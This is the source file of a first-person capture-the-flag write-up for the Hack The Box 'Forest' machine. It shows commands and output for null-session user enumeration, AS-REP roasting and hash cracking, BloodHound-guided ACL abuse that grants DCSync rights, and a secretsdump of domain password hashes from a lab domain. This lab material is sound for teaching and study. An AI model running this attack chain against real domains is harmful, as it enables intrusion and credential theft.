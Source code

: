 ```yaml
---
title: Forrest (Easy) - HTB
date: 2024-05-24 12:00:00 +/-TTTT
categories: [Writeups]
image:
    path: /assets/img/forest/thumbnail.png
---
```



Forest is an easy level box, which involves pure Active Directory attacks. The box starts out with enumerating all the users within the domain by using a null rpc session. We can then leverage this user list to find an AS-REP roastable user. By AS-REP roasting this user, we are able obatin their hash, which can then be cracked using HashCat. We leverage this user to run Bloodhound and find out we can add ourselves to a high privilaged group, allowing WriteDACL over the domain.

### Initial Enumeration
Run Nmap to see all open ports

``` bash
sudo nmap -sV -sC 10.129.95.210 -oN scan.nmap -v
```

``` bash
# Nmap 7.94SVN scan initiated Wed Sep  4 21:29:53 2024 as: nmap -sV -sC -oN scan.nmap -v 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.051s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-05 01:36:50Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-09-04T18:36:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-05T01:36:56
|_  start_date: 2024-09-05T01:33:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:30:15 2024 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

See port `88` up as Kerberors, and port `3268` as LDAP, this tells me this is most likely a Windows DC. I started out by checking if null sessions were allowed with SMB.

Running the following proves that a null session is allowed, but unable to list shares

``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --shares

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Foothold via ASREPRoast

#### Creating a Userlist

Due to no access to signifigant access the domain controller through a null session, I decided to use the null session to enumerate users on the machine. If we get a list of valid users I could enumerate users vulnerable to ASREProasting, due to no pre-authentication required 

I first checked it the null session was allowed to enumerate users with NetExec


``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --users

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.95.210   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.95.210   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.95.210   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.95.210   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
<SNIP>
SMB         10.129.95.210   445    FOREST           svc-alfresco                  2024-09-05 01:44:34 0
SMB         10.129.95.210   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.95.210   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.95.210   445    FOREST           santi                         2019-09-20 23:02:55 0
```

As seen above the anonymous user is allowed to get all domain users. To get a list of these user, I used rpcclient and vim macros.

``` bash
$ rpcclient -U "" -N 10.129.95.210 -c enumdomusers | tee users.txt
```

Now that I have my users list, I ran `GetNPUsers.py`, which looks for users which do not require pre-authenticaiton, the tool also automatically requests and saves a vulnerable user's hash.

#### Cracking svc-alfresco's hash

``` bash
$ impacket-GetNPUsers 'htb.local/' -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
<SNIP>
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running this, the user `svc-alfresco` does not require pre-authentication. Now that the user's hash is saved, I forwarded to hashcat to crack.

```bash
$ hashcat asrep-hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f...5c0bb5
Time.Started.....: Wed Sep  4 22:02:11 2024 (9 secs)
Time.Estimated...: Wed Sep  4 22:02:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   447.1 kH/s (0.73ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 70%

Started: Wed Sep  4 22:02:09 2024
Stopped: Wed Sep  4 22:02:22 2024
```


The user's hash is sucessfully cracked and we can now log in as that user

``` bash
$ nxc smb 10.129.95.210 -u "svc-alfresco" -p "s3rvice"

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```


### Abusing ACLs

#### Running Bloodhound

I decided to run Bloodhound to find any possible relations from our current user

``` bash
$ nxc ldap 10.129.95.210 -u "svc-alfresco" -p "s3rvice" --bloodhound -c all --dns-server 10.129.95.210 --dns-tcp

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.129.95.210   389    FOREST           Resolved collection methods: localadmin, acl, objectprops, trusts, group, dcom, psremote, session, rdp, container
LDAP        10.129.95.210   389    FOREST           Done in 00M 17S
LDAP        10.129.95.210   389    FOREST           Compressing output into /home/parallels/.nxc/logs/FOREST_10.129.95.210_2024-09-04_220801_bloodhound.zip
```


Checking this user's transitive object control, I was able to map the following path in Bloodhound.

![bloodhound path](/assets/img/forest/1.png)

Through nested groups, our user is apart of the `Account Operators` AD group, this group allows `GenericAll` rights over the group `EXCHANGE WINDOWS PERMISSIONS`. GenericAll permissions over a group allow us to add a user to that group. Once we have control over `EXCHANGE WINDOWS PERMISSIONS`, we can legerage `WriteDACL` to permit a user DCsync rights over the domain, effectivly compromising the domain through a DCsync attack.

I use `Bloody-AD` to create a new user to be used with this attack, we are allowed to do this because we are in the `Account Operators` group.

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add user "jeff" "password123\!"
[+] jeff created
```

As mentioned earlier, we'll add our new user jeff to `EXCHANGE WINDOWS PERMISSIONS`

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "jeff"
[+] jeff added to EXCHANGE WINDOWS PERMISSIONS
```
Using the user jeff, we can attempt to add DCSync privilages over the domain


```bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "jeff" -p "password123\!" add dcsync jeff
[+] jeff is now able to DCSync
```

### Domain Comprimise

We can now run secrets dump, given our new privilages.

``` bash
$ secretsdump.py htb.local/jeff:'password123!'@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```